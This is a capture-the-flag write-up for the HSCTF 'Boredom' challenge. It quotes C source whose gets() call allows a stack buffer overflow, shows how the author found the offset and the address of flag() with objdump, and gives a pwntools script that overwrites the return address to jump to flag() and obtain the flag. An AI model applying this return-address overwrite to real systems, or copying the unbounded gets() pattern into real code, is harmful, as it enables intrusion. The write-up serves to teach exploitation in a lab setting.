


# Boredom

## Challenge

"Keith is bored and stuck at home. Give him some things to do.

Connect at nc pwn.hsctf.com 5002.

Note, if you're having trouble getting it to work remotely

check your offset, the offset is slightly different on the remote server
the addresses are still the same"

You can download the problem files here [boredom](boredom) [boredom.c](boredom.c)

## Process

I looked within the .c file for anything interesting.

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <signal.h>

void setup() {
  puts("I'm currently bored out of my mind. Give me something to do!");
  setvbuf(stdin, NULL, _IONBF, NULL);
  setvbuf(stdout, NULL, _IONBF, NULL);
}

void flag() {
  FILE *f = fopen("flag.txt", "r");
  char buf[50];
  if (f == NULL) {
    puts("You're running this locally or I can't access the flag file for some reason.");
    puts("If this occurs on the remote, ping @PMP#5728 on discord server.");
    exit(1);
  }
  fgets(buf, 50, f);
  printf("Hey, that's a neat idea. Here's a flag for your trouble: %s\n",
    buf);
  puts("Now go away.");
  exit(42);
}

int main() {
  char toDo[200];
  setup();

  printf("Give me something to do: ");
  gets(toDo);
  puts("Ehhhhh, maybe later.");
  return 0;
}
```

I noticed this line which is vulnerable to a buffer overflow attack. I also noticed that I want to jump into the flag() function whichc never gets called naturally.

```
gets(toDo);
```

I supplyed the given elf file with more and more characters in order to determine the size of the buffer. At 216 characters the program segfaulted.



To find the address of the function flag(), I ran an object dump on the given elf file. You can look at the entire dump here [dump.txt](dump.txt).

```
$ objdump -d boredom > dump.txt
```

Through the dump I found the address of the function flag(), which is 0x00000000004011d5

```
00000000004011d5 <flag>:
  4011d5:	55                   	push   %rbp
  4011d6:	48 89 e5             	mov    %rsp,%rbp
  4011d9:	48 83 ec 40          	sub    $0x40,%rsp
  4011dd:	48 8d 35 60 0e 00 00 	lea    0xe60(%rip),%rsi        # 402044 <_IO_stdin_used+0x44>
  4011e4:	48 8d 3d 5b 0e 00 00 	lea    0xe5b(%rip),%rdi        # 402046 <_IO_stdin_used+0x46>
```

I then wrote and ran [this](payloader.py) python script to perform the bufferoverflow attack and obtained the flag.

```
from pwn import * 
connection = remote('pwn.hsctf.com', 5002)
#through fuzzing found buffer
offset = 208
#through objdump -d we found the address of flag() as 00000000004011d5 and know the machine is 64 bit
address = p64(0x000004011d5)
#perform the bufferoverflow itself
connection.sendline('a'*offset + address)
connection.interactive()
```



The flag is flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}